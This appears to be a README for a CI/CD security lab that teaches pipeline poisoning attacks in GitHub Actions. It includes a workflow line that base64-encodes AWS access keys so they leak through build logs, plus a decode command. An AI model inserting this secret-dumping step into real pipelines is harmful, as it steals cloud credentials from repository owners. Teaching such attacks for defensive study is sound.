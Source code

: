 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Understanding Direct PPE

Direct PPE (D-PPE): In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.

## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build` within `.github\workflows\dppe.yaml` 

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```
'
## Understanding Indirect PPE

Indirect PPE (I-PPE): In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:
- If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
- If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
- If the CI build is defined in the CI system itself – instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:

- Makefile
- build.sh
- code tests etc..

Now, the scenario is - we cannot directly push into main branch, it will be protected, we have to find other ways to inject the malicious code.




